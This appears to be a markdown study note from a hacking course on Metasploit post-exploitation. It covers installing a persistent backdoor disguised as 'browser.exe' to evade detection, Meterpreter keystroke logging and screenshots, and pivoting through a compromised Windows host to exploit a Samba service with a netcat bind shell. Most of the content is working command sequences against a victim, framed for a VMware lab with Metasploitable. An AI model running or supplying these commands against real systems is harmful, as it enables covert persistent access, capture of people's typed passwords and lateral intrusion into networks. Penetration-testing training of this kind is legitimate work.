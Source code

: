 # Post connection attacks
-   attacks after connections to the victim's machine using metasploit in meterpreter console


## Maintaining access
-   How to maintain access after getting one through backdoor and Metasploit:
    1)  Use a handler, which is a service to generate the backdoor payload. For example `c/meterpreter/rev_http_service`. This way the backdoor will install as service to the victims machine and it will run whenever he will run the machine. This doesn't always work.
    2)  Inject our created backdoor payload and inject to the services manually in meterpreter after gaining the access to the victims machine:


```bash
backgroud # in meterspreter make the connection run in the bg
sessions -l # get list of sessions
use exploit/windows/local/persistence # switch handler in msf exploit(handler), after running should showup msf exploit(persistence)
show options
set EXE_NAME browser.exe # this is name of our backdoor, which will show up under the processes, using something like browser is less detectable
set SESSION 2 # set this to session id which should the exploit run on
show advanced # shows more (advanced) options
set EXE::Custom /var/html/backdoor.exe # set the path to the payload which should be run on the victim's machine. In our case it is the backdoor
show advanced # check if set right
exploit
```
-   after running exploit in this case it uploads the /var/html/backdoor.exe to the victim's machine in set session (2) and installs it.
-   also will show "clean up Meterpreter", which allows to delete the backdoor from the victim's machine, which should be used after not needing the access anymore. Could look like `/root/.msf4/logs/persistence/MSEGEWIN10_2020612/MSEGEWIN10_2020612.2445.rc`
-   to test the right setup:
```bash
sessions -K # kill all the sessions
sessions -l
use exploit/multi/handler
show options # check if set correctly, otherwise set LPORT and LHOST as needed
exploit     # victim's pc should automatically connect now
```


## Capturing keystrokes and screenshots
In meterpreter:
```bash
keyscan_start # recording everything
keyscan_dump # print all the captured key strikes. It is organized and it shows also which website for example was it typed on
keyscan_stop # stop recording
screenshot # get screenshot
```


## Pivoting
-   use the hacked device as pivot to try to get access to other devices in the network
-   for testing environment, network settings in VMware need to be changed:
    1) Kali linux machine: keep it NAT
    2) 1st windows Windows machine:
        -   1st Network: keep one adapter NAT
        -   2nd Network add second network adapter (Add button on left bottom corner), and set it as Bridged
    3) 2nd Windows / Linux machine (tested with Metasploitable Linux):
        -   set it as Bridge
        -   this is the machine that Kali will connect to through 1st Windows machine
-   connect to the Windows 1 through the created backdoor in metasploit as previously (`session -l` and `sessions -i 1`)
-   ...
```bash
ifconfig # find machines with ip addresses
background
use post/multi/manage/autoroute
show options
set SESSION 1 # set session id which you are connected to the victim's machine
set SUBNET 10.20.15.0 # set subnet to subnet which Kali doesn't have access, but wants to connect as attacker
exploit
```
-   this creates connection between victim's machine and Kali (attacker), so the set subnet is now visible from the Kali machine as well
```bash
use exploit/multi/samba/usermap_script
show options
set RHOST 10.20.15.4 # ip address of the 2nd victim's machine found from previous ifconfig
show payloads
set PAYLOAD cmd/unix/bind_netcat
show options
exploit
```
-   this will connect Kali machine to the 2nd victims machine